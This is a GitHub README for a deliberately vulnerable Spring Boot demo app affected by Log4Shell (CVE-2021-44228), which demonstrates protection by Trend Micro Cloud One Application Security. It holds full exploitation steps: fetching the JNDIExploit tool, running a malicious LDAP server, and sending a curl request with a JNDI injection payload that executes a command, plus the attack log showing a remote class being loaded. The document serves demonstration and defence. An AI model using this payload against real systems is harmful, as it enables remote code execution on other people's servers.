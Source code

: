 # Log4Shell sample vulnerable application (CVE-2021-44228), protected by Cloud One Application Security

This repository contains a Spring Boot web application vulnerable to CVE-2021-44228, nicknamed [Log4Shell](https://www.lunasec.io/docs/blog/log4j-zero-day/), and was modified to add Trend Micro's Cloud One Application Security agent to demonstrate technique-based web application protection to this vulnerability.

It uses Log4j 2.14.1 (through `spring-boot-starter-log4j2` 2.6.1) and the JDK 1.8.0_181.

![](./screenshot.png)

## Running the application

Build it yourself (you don't need any Java-related tooling):

```bash
docker build . -t log4shell-vulnerable-app-c1as
docker run --rm -d -p 8080:8080 --name log4shell-vulnerable-app-c1as log4shell-vulnerable-app-c1as
```

## Exploitation steps

*Note: This is highly inspired from the original [LunaSec advisory](https://www.lunasec.io/docs/blog/log4j-zero-day/). **Run at your own risk, preferably in a VM in a sandbox environment**.*

* Use [JNDIExploit](https://github.com/feihong-cs/JNDIExploit/releases/tag/v1.2) to spin up a malicious LDAP server

```bash
wget https://github.com/feihong-cs/JNDIExploit/releases/download/v1.2/JNDIExploit.v1.2.zip #(looks down, try https://transfer.sh/puxohI/JNDIExploit.v1.2.zip)
unzip JNDIExploit.v1.2.zip
nohup java -jar JNDIExploit-1.2-SNAPSHOT.jar -i your-private-ip -p 8888 &
```

* Then, trigger the exploit using:

```bash
# will execute 'touch /tmp/pwned'
curl 127.0.0.1:8080 -H 'X-Api-Version: ${jndi:ldap://your-private-ip:1389/Basic/Command/Base64/dG91Y2ggL3RtcC9wd25lZAo=}'
```

* Notice the output of JNDIExploit, showing it has sent a malicious LDAP response and served the second-stage payload:

```
[+] LDAP Server Start Listening on 1389...
[+] HTTP Server Start Listening on 8888...
[+] Received LDAP Query: Basic/Command/Base64/dG91Y2ggL3RtcC9wd25lZAo
[+] Paylaod: command
[+] Command: touch /tmp/pwned

[+] Sending LDAP ResourceRef result for Basic/Command/Base64/dG91Y2ggL3RtcC9wd25lZAo with basic remote reference payload
[+] Send LDAP reference result for Basic/Command/Base64/dG91Y2ggL3RtcC9wd25lZAo redirecting to http://192.168.1.143:8888/Exploitjkk87OnvOH.class
[+] New HTTP Request From /192.168.1.143:50119  /Exploitjkk87OnvOH.class
[+] Receive ClassRequest: Exploitjkk87OnvOH.class
[+] Response Code: 200
```

* To confirm that the code execution was successful, notice that the file `/tmp/pwned.txt` was created in the container running the vulnerable application:

```
$ docker exec vulnerable-app ls /tmp
...
pwned
...
```

## Protection with Cloud One Application Security

This assumes you have [already integrated the agent to your application.](https://cloudone.trendmicro.com/docs/application-security/install-agent/)


1. Log into Trend Micro Cloud One and navigate to Application Security.
2. Select "Group's Policy" on the left-hand menu and find your application's Group.
3. Enable "Remote Command Execution" if not already enabled.
4. Click the hamburger icon for "Configure Policy" and then click the " < INSERT RULE > " icon.
5. Input ```(?s).*``` in the "Enter a pattern to match" field and hit "Submit" and "Save Changes."
6. Double-check that "Mitigate" is selected in your "Remote Command Execution" line item.



## Reference

https://www.lunasec.io/docs/blog/log4j-zero-day/
https://mbechler.github.io/2021/12/10/PSA_Log4Shell_JNDI_Injection/
https://success.trendmicro.com/solution/000289940
https://www.trendmicro.com/en_us/research/21/l/patch-now-apache-log4j-vulnerability-called-log4shell-being-acti.html


## Contributors

[@christophetd](https://twitter.com/christophetd)
[@rayhan0x01](https://twitter.com/rayhan0x01)

## Support
This is an Open Source community project. Project contributors may be able to help, depending on their time and availability. Please be specific about what you're trying to do, your system, and steps to reproduce the problem.

For bug reports or feature requests, please open an issue. You are welcome to contribute.

Official support from Trend Micro is not available. Individual contributors may be Trend Micro employees, but are not official support.
